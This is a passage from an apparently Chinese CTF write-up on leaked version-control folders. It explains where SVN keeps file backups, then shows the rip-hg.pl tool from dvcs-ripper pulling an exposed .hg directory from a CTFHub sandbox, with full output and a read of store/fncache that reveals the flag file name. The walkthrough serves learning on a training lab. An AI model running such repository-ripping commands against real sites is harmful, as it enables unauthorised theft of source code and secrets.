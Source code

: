 

使用svn checkout后，项目目录下会生成隐藏的.svn文件夹（Linux上用ls命令看不到，要用ls -al命令）。
 svn1.6及以前版本会在项目的每个文件夹下都生成一个.svn文件夹，里面包含了所有文件的备份，文件名为  .svn/text-base/文件名.svn-base
 svn1.7及以后版本则只在项目根目录生成一个.svn文件夹，里面的pristine文件夹里包含了整个项目的所有文件备份.

#### 6. HG泄露

当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞。

目录扫描有`/.hg/`  泄露 

还是上一个脚本库里的 rip-hg.pl

```python
#一定要加 -v 不然 down 不下来的
        
root@localhost:~/ctf/dvcs-ripper# ./rip-hg.pl -v -u http://challenge-1ccbdf6a8520678e.sandbox.ctfhub.com:10080/.hg/
[i] Downloading hg files from http://challenge-1ccbdf6a8520678e.sandbox.ctfhub.com:10080/.hg/
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[d] found 00changelog.i
[d] found dirstate
[d] found requires
[!] Not found for branch: 404 Not Found
[!] Not found for branchheads.cache: 404 Not Found
[d] found last-message.txt
[!] Not found for tags.cache: 404 Not Found
[d] found undo.branch
[d] found undo.desc
[d] found undo.dirstate
[d] found store/00changelog.i
[!] Not found for store/00changelog.d: 404 Not Found
[d] found store/00manifest.i
[!] Not found for store/00manifest.d: 404 Not Found
[d] found store/fncache
[d] found store/undo
[!] Not found for .hgignore: 404 Not Found
[i] Running hg status to check for missing items
cannot find hg: No such file or directory at ./rip-hg.pl line 140.

```

执行过程有大量文件未找到，查看已旦拿到文件。

进入 `store` 目录·，查看 `fncache` 信息

```bash
root@localhost:~/ctf/dvcs-ripper/.hg# ls -a
.  ..  00changelog.i  dirstate  last-message.txt  requires  store  undo.branch  undo.desc  undo.dirstate
root@localhost:~/ctf/dvcs-ripper/.hg# cat store/fncache 
data/index.html.i
data/50x.html.i
data/flag_32013795.txt.i

```
